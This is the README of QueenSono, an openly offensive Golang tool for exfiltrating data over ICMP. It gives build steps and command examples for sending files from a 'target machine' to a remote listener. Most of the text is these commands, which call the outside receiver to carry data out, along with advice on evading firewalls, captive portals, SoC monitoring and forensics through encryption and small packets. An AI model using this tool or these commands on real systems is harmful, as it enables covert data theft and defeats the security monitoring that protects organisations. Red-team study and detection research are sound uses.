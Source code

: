 


  <h1 align="center">QueenSono <i> ICMP Data Exfiltration </i></h1>
<h4 align="center"> A Golang Package for Data Exfiltration with ICMP protocol. </h4>
  <p align="center">
  QueenSono tool only relies on the fact that ICMP protocol isn't monitored. It is quite common. It could also been used within a system with basic ICMP inspection (ie. frequency and content length watcher) or to bypass authentication step with captive portal (used by many public Wi-Fi to authenticate users after connecting to the Wi-Fi e.g Airport Wi-Fi). Try to imitate <a href="https://github.com/ytisf/PyExfil">PyExfil</a> (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be useful)
    <br />
    <br>
    <strong>
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#install">Install it</a>
    ·
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#usage">Use it</a>
    ·
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#notes">Notes</a>
    ·
    <a href="https://github.com/ariary/QueenSono/issues">Request Feature</a>
  </strong>
  </p>
</p>

## Install
 *\> Install the binary from source*
 
Clone the repo and download the dependencies locally:
```    
git clone https://github.com/ariary/QueenSono.git
make before.build
```

 To build the ICMP packet sender `qssender` :

     build.queensono-sender
    

 To build the ICMP packet receiver `qsreceiver` :

     build.queensono-receiver

## Usage

`qssender` is the binary which will send ICMP packet  to the listener , so it is the binary you have to transfer on your target machine. 

`qsreceiver` is the listener on your local machine (or wherever you could receive icmp packet)

All commands and flags of the binaries could be found using `--help`

### Example 1: Send with "ACK"
*\> In this example we want to send a big file and look after echo reply to ackowledge the reception of the packets (ACK).*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 -p -f received_bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-l 0.0.0.0</code>listen on all interfaces for ICMP packet
    </li>
    <li>
      <code>-f received_bible.txt</code> save received data in a file
    </li>
    <li><code>-p</code> show a progress bar of received data </li>

</details>


On target machine:

    $ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt #download a huge file (for the example)
    $ qssender send file -d 2 -l 127.0.0.1 -r 10.0.0.92 -s 50000 bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>send file</code> for sending file (<code>bible.txt</code> is the file in question)
    </li>
    <li>
      <code>-d 2</code> send a packet each 2 seconds
    </li>
    <li><code>-l 127.0.0.1</code> the listening address for <i>echo reply</i> </li>
    <li><code>-r 10.0.0.92</code> the address of my remote machine with <code>qsreceiver</code> listening</li>
    <li><code>-s 50000</code> the data size I want to send in each packet</li>
</details>


### Example 2: Send without "ACK"
*\> In this example we want to send a message without waiting for echo reply (it could be useful in  case the target firewall filters incoming icmp packet)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-trunc.gif?raw=true)


On local machine:

    $ qsreceiver receive truncated 1 -l 0.0.0.0
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>receive truncated 1</code> does not wait indefinitely if we don't received all the packets. (<code>1</code> is the delay used with <code>qssender</code>)</li>
</details>


On target machine:

    $ qssender send "thisisatest i want to send a string w/o waiting for the echo reply" -d 1 -l 127.0.0.1 -r 10.0.0.190 -s 1 -N
<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-N</code> noreply option (don't wait for <i>echo reply</i>)
    </li>
</details>


### 🚧 Example 3: Send encrypted data
*\> In this example we want to send an encrypted message. As the command line could be spied on we use asymmetric encryption*

On local machine:

    $ qsreceiver receive -l 0.0.0.0 --encrypt 
    <OUTPUT PUBLIC KEY>
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>--encrypt </code> use encryption exchange. It will generate public/private key. The public one will be used by <code>qssender</code> to encrypt data, the private one is used to decrypt it with <code>receiver</code>
</details>


On target machine:

    $ qssender send "don't worry this message was encrypted with the public key. only you could decrypt it" -d 1 -l 127.0.0.1 -r 10.0.0.190 go.mod -s 5 --encrypt <public_key_from_qsreceiver_output>
<details>
  <summary>Explanation</summary>
    <li>
    <code>--encrypt </code> provide key for data encryption. Use the one provided by the <code>qsreceiver</code> command
    </li>
</details>

#### About encryption
RSA encrytion is used to keep data exchanged confidential. It could be useful for example to avoid a SoC to see what data is exchanged (or forensic) w/ basic analysis or simply for privacy.

But it comes with a cost. The choice of asymetric encryption is motivated by the fact that the encryption key is entered on the command line (so it could be retieved easily). Hence, we encrypt data with public key. Like this if someone retrieve the encryption key it will not be possible to decrypt the message. But the public key is smaller than the private one, so it ***encrypt smaller messages***. Also, ***it is computationally expensive***.

Another point, as we want to limit data size/ping request (avoid detection, bug, etc), **use encryption only if needed** ***as the message output-size will (should) always equal the size of the Modulus*** (part of the key) which is big

### Notes
- only work on Linux  (due to the use of golang net icmp package)
- need `cap_net_raw capabilities`
